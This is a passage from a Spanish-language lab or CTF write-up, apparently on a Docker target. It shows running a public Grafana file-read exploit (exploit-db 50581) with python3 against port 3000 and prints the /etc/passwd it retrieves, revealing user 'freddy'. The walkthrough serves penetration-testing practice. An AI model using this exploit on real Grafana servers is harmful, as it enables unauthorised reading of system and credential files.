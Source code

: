 Vemos una pagina llamada `/maintenance.html` que si entramos veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Por el momento no hay nada mas interesante que eso, por lo que nos iremos al puerto `3000` a ver que hay.

## Escalate user freddy

### Exploit Grafana

Vemos que es un `Software` llamado `Grafana`, si vemos algun exploit para el mismo, vemos el siguiente:

URL = [Exploit Grafana](https://www.exploit-db.com/exploits/50581)

Vemos un exploit de `python3` por lo que haremos lo siguiente, primero nos lo descargaremos y lo ejecutaremos asi:

```shell
python3 50581.py -H http://172.17.0.2:3000 
```

Info:

```
Read file > /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
ftp:x:101:104:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
grafana:x:103:105::/usr/share/grafana:/bin/false
freddy:x:1000:1000::/home/freddy:/bin/bash
```
